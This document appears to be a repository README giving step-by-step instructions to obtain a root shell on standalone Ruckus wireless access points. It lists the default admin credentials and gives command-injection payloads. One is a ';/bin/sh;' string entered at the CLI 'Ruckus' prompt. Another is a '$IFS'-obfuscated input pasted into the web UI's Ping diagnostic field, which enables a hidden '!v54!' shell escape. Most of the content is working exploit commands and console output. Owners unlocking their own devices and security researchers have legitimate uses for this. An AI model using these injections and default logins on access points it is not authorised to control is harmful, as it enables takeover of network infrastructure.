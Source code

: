 # Obtaining a root shell on Standalone/Solo Ruckus APs

The Ruckus CLI includes a hidden `!v54!` command which exits to a root shell.  

* Very old AP firmware checks a configuration setting `cli_esc2shell_ok` to decide whether the `!v54!` command is available.  
* Newer AP firmware checks an encrypted serial# to decide whether the `!v54!` command is available.  
The encrypted serial# is saved to a file using the `Ruckus` command, then the `!v54!` command uses `sesame` to decrypt this file.

## Firmware >112.1

Sorry, I don't have a method to bypass the serial# check on newer Standalone/Solo AP firmwares

## Firmware 9.8 - 112.1

These AP firmware versions [don't sanitize the encrypted serial#](https://alephsecurity.com/vulns/aleph-2019014#proof-of-concept).  
So we can use the `Ruckus` command to inject a root shell.
> Note that the injection only needs to be performed once.

### SSH to the AP

```console
$ ssh 192.168.0.1 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa
```

Login. Default username is "super", password is "sp-admin".

### Command injection

```console
rkscli: Ruckus
```

Now type `";/bin/sh;"` and hit enter *(you won't be able to see what you're typing)*

```console
grrrr
```

> Instead of `grrrr`, any other random dog noise could  be printed to the screen. 

### Escape to shell

```console
rkscli: !v54!
What's your chow: 
```

Now hit enter

```console
Ruckus Wireless ZoneDirector -- Command Line Interface
Enter 'help' for a list of built-in commands.

ruckus$
```

You have a root shell.

## Firmware Pre-9.8

These AP firmware versions [don't sanitize the input to the Ping diagnostic tool](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6230).  
So we can use `Ping` to enable `cli_esc2shell_ok`.
> Note that the `Ping` enablement only needs to be performed once.

### Connect to the AP's Web UI

Login. Default username is "super", password is "sp-admin".

### Enable shell escape

Go to `Administration` > `Diagnostics`, paste `|rpm${IFS}-p${IFS}cli_esc2shell_ok="t"` into the `Ping:` textbox & hit `Run test`.

### SSH to the AP

```console
$ ssh 192.168.0.1 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa
```

Login. Default username is "super", password is "sp-admin".

### Escape to shell

```console
rkscli: !v54!
What's your chow: 
```

Now hit enter

```console
Ruckus Wireless ZoneDirector -- Command Line Interface
Enter 'help' for a list of built-in commands.

ruckus$
```

You have a root shell.
